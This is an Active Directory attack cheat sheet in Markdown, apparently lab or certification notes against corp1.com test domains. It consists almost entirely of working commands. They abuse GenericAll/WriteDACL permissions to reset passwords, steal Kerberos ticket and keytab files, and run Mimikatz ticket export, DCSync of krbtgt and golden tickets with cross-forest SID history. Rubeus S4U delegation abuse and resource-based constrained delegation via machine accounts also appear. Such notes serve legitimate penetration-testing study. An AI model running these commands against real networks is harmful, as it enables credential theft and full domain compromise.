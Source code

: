 # Active Directory Cheat Sheet

## AD Object Security Permission
### Check Generic All
**Logic**: Use GenericAll permission → modify related password to gain access
```powershell
# Check Generic All
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Exploitation 
net user testservice1 h4x /domain
net group testgroup offsec /add /domain
```

### Check DACL
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check WriteDACL
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

#Change Permission to Generic ALL
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All

# Recheck
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Kerberos Operation (Linux)
### General Command
```bash
#Checking if Kerberos exists
env | grep KRB5CCNAME

#Initiate of Keberos TGT
kinit

#Checking existing TGT
klist

#Checking SPNs
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName

#Initiate ST
kvno MSSQLSvc/DC01.corp1.com:1433
```

### Path 1: Stealing Ticket File 
**Logic**: Steal ticket file (with sudo right) → Change Ticket Owner → Request TGT and ST
```bash
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown offsec:offsec /tmp/krb5cc_minenow
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
kvno MSSQLSvc/DC01.corp1.com:1433
```

**Impacket Version with proxychain**
```bash
#In Victim
ssh offsec@linuxvictim -D 9050

#Example of operation
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

### Path 2: Stealing KeyTab File
**Logic**: Steal Ticket File (Incorrect permission configured) → Kinit
```bash
#Kinit using keytab file
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab

#SMB For testin
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
```
## Kerberos Operation (Windows)
### Unconstrainted Delegation
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check Unconstrainted Delegation
Get-DomainComputer -Unconstrained

# Export Ticket
sekurlsa::tickets /export

# Import again to elevate permission
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

# DC Sync
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

### Constrainted Delegation
**Logic**: Check TrustedtoAuth firled for the user (**msds-allowedtodelegateto**) → Generate TGT → S4U Authentication → Modify authentication for alt service 
```powershell
# Check Trusted to Auth
Get-DomainUser -TrustedToAuth

#Generate TGT
.\Rubeus.exe hash /password:lab
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

#Perform authentication/ alt service authentication
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

### Resource Constrainted Constrainted Delegation
**Logic**: GenericAll on Computer Object → Check Machine Account Quota → Creat Machine Account and put into msDS-AllowedToActOnBehalfOfOtherIdentity → Create S4U 
```powershell
# Check GenericAll
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Check Machine Account Quota
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

# Add Machine Account
. .\powermad.ps1
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
Get-DomainComputer -Identity myComputer

# Check SID and Convert to Binary Formmat
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

#Assign Binary format SID into msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
.\Rubeus.exe hash /password:h4x
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

## Within Forest Operation
**Logic**: Check Forest Trust first (Direct_Inbound & Direct_Outbound) inside **Flags**
**Key**: TrustAttributes: WITHIN_FOREST (Inside Same Forest), FOREST_TRANSITIVE (Outside Forest)
### Enumeration
```powershell
Get-DomainTrust -API
Get-DomainTrust
Get-DomainUser -Domain corp1.com
```
**Logic**: SYSTEM at Primary Domain (Prod.corp1.com) + Corp1$ NTLM Hash inside Prod.corp1.com → SYSTEM at Secondary Domain (Corp1.com)
```powershell
#Mimikatz Get Domain Hash
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

Get-DomainSID -Domain prod.corp1.com 
Get-DomainSid -Domain corp1.com 

kerberos::golden /user:h4x /domain:<Domain Name> /sid:<Domain SID> /krbtgt:<NTLM of KRBTGT> /sids:<External Forest Enterprise Admin SID> /ptt
```

## Extra-Forest Operation
### Enumeration
**Attack Path 1:** Enumeration of External Trusted Group → Compromise the account → Gain Extenral Forest 
**Attack Path 2:** Gain KRBTGT Hash → SIDS 
**ATtack Path 3:** Gain LinkedSQL in both domains
```powershell
#PowerView 
Get-DomainTrustMapping

#Check groups in a trusted forest or domain that contains non-native members
#Compromise this account can easily gain access to the forest
#Check MemberName: SID field
Get-DomainForeignGroupMember -Domain corp2.com 
convertfrom-sid <SID>

#Check LinkedSQL
setspn -T prod -Q MSSQLSvc/*
```

### Exploitation
```powershell
lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
Get-DomainSID -domain corp1.com
Get-DomainSID -domain corp2.com

#Check Forest Group SID must be larger than 1000, it must be > 1000 (Custom Group in External Forest)
Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
kerberos::golden /user:h4x /domain:<Domain> /sid:<Domain SID> /krbtgt:<Domain NTLM Hash of KRBTGT> /sids:<External Forest Enterprise Admin SID Custom Group>  /ptt
```
